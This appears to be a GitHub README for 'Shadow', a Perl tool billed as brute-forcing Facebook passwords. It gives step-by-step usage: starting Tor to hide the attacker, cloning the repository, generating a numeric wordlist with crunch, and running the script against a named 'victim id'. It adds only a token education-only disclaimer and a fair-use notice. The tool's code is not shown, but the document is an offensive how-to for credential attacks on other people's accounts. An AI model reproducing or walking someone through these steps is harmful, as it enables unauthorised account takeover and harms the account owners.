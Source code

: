 # Shadow
A "Shadow" tool for brute-force password of facebook.

# Images
<img src="Images/IMG20210213210422.jpg" width="400" height="500">
<img src="Images/IMG20210213210504.jpg" width="400" height="500">

# Requirements:
1) Linux (Kali Linux, Parrot OS, etc)
2) Perl 
3) WordList ( Download from Internet or make own Wordlist)
4) Fast Internet Conection
5) Tor Install (optional)

# Usage :
rolt@alex:~# service tor start

root@alex:~# git clone https://github.com/hackerboyalex/Shadow

root@alex:~# cd Shadow

root@alex:~# crunch 8 10 1234567890 -o /root/Desktop/Shadow/wordlist.txt
( You can create your own wordlist with help of crunch)
 
root@alex:~# perl shadow hackerboyalex (victim id) /root/Desktop/Shadow/wordlist.txt (wordlist path)

# Terms & Conditions

Warning : These Tool using only for education and knowledge perpose. If use illegal way then your these responsibility.

We strictly recommend not to use this demonstration for harmful purposes.

# Copyright : 
Copyright Disclaimer under Section 107 of the copyright act 1976, allowance is made for fair use for purposes such as criticism,
comment, news reporting, scholarship, and research.
Fair use is a use permitted by copyright statute that might otherwise be infringing.
Non-profit, educational or personal use tips the balance in favour of fair use.


